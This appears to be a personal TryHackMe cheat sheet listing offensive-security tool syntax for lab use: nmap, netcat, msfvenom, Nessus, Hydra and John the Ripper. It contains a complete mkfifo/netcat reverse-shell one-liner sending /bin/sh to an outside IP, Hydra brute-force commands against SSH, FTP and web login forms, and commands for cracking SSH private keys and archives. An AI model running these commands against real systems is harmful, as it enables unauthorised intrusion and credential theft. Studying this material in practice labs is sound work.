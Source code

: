 # TryHackMe - Cheat Sheet

## Useful Links

- [Sec Lists](https://github.com/danielmiessler/SecLists)
- [Identify Hash Types](https://hashes.com/en/tools/hash_identifier)
- [Brute Force Cheatsheet](https://book.hacktricks.xyz/brute-force)
- [Cyber Chef](https://gchq.github.io/CyberChef)

## NMAP

### Basic Switches

- -`sT` TCP Connect Scans 
- `-sS` SYN "Half-open" Scans 
- `-Su` UDP Scans (-sU)
- `-O`  Operating System
- `-Sv` Services that are running.
- `-p-` Scan all ports

### Output Types

- `-oA` Three major formats
- `-oN` Normal format
- `-oG` Grepable format

## Reverse Shells

`nc -lvnp <port-number>`

- `-l` is used to tell netcat that this will be a listener
- `-v` is used to request a verbose output
- `-n` tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.
- `-p `indicates that the port specification will follow.
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.9.59 4242 >/tmp/f`

### Bind Shells

`nc <target-ip> <chosen-port>`

### Netcat Shell Stabilisation

- Uses Python to spawn a better featured bash shell. `python -c 'import pty;pty.spawn("/bin/bash")'` 
- Give commands such as clear `export TERM=xterm` 
- Background the shell using Ctrl + Z. Back in own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

## Python3 

### Web Server

Format for a Python3 web server `sudo python3 -m http.server 80`

## Msfvenom 

Standard format for msfvenom `msfvenom -p <PAYLOAD> <OPTIONS>`

## Nessus (Vulnerability scanner)

### Basic Commands

Start Service `sudo /bin/systemctl start nessusd.service`

### Navigation & Scanning

- Which hosts are alive: host discovery
- Scan suitable for any host: Basic network scan
- Authenticate to hosts and enumerate missing update: Credentialed Patch Audit
- Scan for web applications: Web applications tests

## Hydra

### Hydra Commands

- For FTP: `hydra -l user -P passlist.txt ftp://MACHINE_IP`
- For SSH: `hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh`
  - `-l` Username
  - `-P` Use a list of passwords
  - `-t` Number of threads to use
 -  Web Forum: `hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/LOGIN_URL(Example /login):username=^USER^&password=^PASS^:F=incorrect" -V`
    - `-l` Sinlge Usnermae
    - `-P` Password List
    - `http-post-form` Type of form (post)
    - `/login url` 
    - `:username` The form field where the username is entered
    - `^USER^` Tell Hydra to use the username    
    - `:password` The form field where the password is entered
    - `^PASSWORD^` Tell Hydra to use the password
    - `-V` Verborse output for every attempt 
  - `ssh username@IP`  SSH Login 

## John the Ripper

### Basic Syntax

`john [options] [path to file]`

### Automatic Cracking

`john --wordlist=[path to wordlist] [path to file]`

### Format-Specific Cracking

`john --format=[format] --wordlist=[path to wordlist] [path to file]`

### Single Crack Mode

`john --single --format=[format] [path to file]` (Uses username to crack password)

### Passwword Protected Zip Files

- Convert zip file into a hash: `zip2john zipfile.zip > zip_hash.txt` 
- Once I have the output use: `john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash.txt`

### Passwword Protected Rar Files

- Convert rar file into a hash: `rar2john [rar file] > [output file]` 
- Once I have the output use: `john --wordlist=/usr/share/wordlists/rockyou.txt rar_hash.txt`

### Passwword Protected RarFiles

- Convert shh2 file into a hash: `ssh2john id_rsa > id_rsa_hash.txt` 
- Once I have the output use: `john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt`






